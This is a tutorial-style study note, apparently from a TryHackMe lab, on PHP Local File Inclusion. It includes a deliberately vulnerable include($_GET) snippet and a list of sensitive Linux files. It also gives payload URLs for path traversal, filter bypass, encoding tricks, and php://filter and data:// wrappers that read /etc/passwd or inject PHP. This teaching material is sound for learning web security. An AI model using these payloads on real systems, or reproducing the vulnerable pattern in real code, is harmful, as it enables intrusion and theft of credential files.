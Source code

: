 # Local File Inclusion (LFI)

### Php Functions which causes LFI

In the PHP, the following functions cause this kind of vulnerability:

* `include`
* `require`
* `include_once`
* `require_once`

***

### Identifying and testing for LFI

Usually, attackers are interested in HTTP parameters to manipulate the input and inject attack payloads to see how the web application behaves. In general, if you are looking for an entry point to test web application attack types, then it is important to use the web app and check its functionalities. An entry point could be HTTP `GET` or `POST` parameters that pass an argument or data to the web application to perform a specific operation.

Once you find an entry point, we need to understand how this data could be processed within the application. After this point, you can start testing for certain vulnerability types using manual or automated tools. The following is an example of PHP code that is vulnerable to LFI.

```php
<?PHP
	include($_GET["file"]);
?>
```

For example, if the website is tryhackme.com then a parameter in the URL can look like `https://tryhackme.com/?file=robots.txt`. Here `file` is the name of the parameter and `robots.txt` is the value that we are passing (include the file robots.txt).

**In addition, other entry points can be used depending on the web application, and where can consider the User-Agent, Cookies, session, and other HTTP headers.**

***

### **Linux system files that have sensitive information.**

* /etc/issue
* **/etc/passwd**
* /etc/shadow
* /etc/group
* /etc/hosts
* /etc/motd
* /etc/mysql/my.cnf
* /proc/\[0-9]_/fd/\[0-9]_ (first number is the PID, second is the filedescriptor)
* /proc/self/environ
* /proc/version
* /proc/cmdline

***

### **LFI Techniques**

The most common technique is path traversal method meaning we can include files like `../../../../etc/passwd` what this does it get out of a directory like we usually do in Linux system by running `cd ../`

We can also try to include using different techniques such as

* A direct file inclusion, which starts with `/etc/passwd`
* using `..` to get out the current directory, the number of `..` is varies depending on the web app directory.
* Bypassing filters using `....//`.
* URL encoding techniques (such as double encoding)

Example

* http://example.thm.labs/page.php?file=/etc/passwd
* http://example.thm.labs/page.php?file=../../../../../../etc/passwd
* http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
* http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
* http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd

***

### PHP Filter

The PHP filter wrapper is used in LFI to read the actual PHP page content. In typical cases, it is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. However, we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`.

Let's try first reading the /etc/passwd file using the PHP filter wrapper.

* http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd

Now try to read the **index.php** file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while **base64** or **ROT13** encoding the output as follows:

* http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd
* http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

We will try to use base64 for our scenario. As a result, we will get base64 encoded output as follows:

```
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDox******Deleted
```

Decode the output to get plain text.

***

### PHP Wrapper

The PHP wrapper is used to include raw plain text or base64 encoded data. It is used to include images on the current page. It is being used in LFI exploit.

Let's try to base64 encode "AoC3 is fun!" text to include it into the page using wrapper data:

```bash
user@machine$ echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==
```

Also, we could decode a base64 as follows:

```bash
user@machine$ echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!
```

Now we can include our base64 data into the vulnerable page as follows,

**http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==**

As a result, the page will show our lovely message, which is **AoC3 is fun!**. Using this technique, we can include PHP code into a page, by encoding the required PHP code and including it into PHP data wrapper.

***
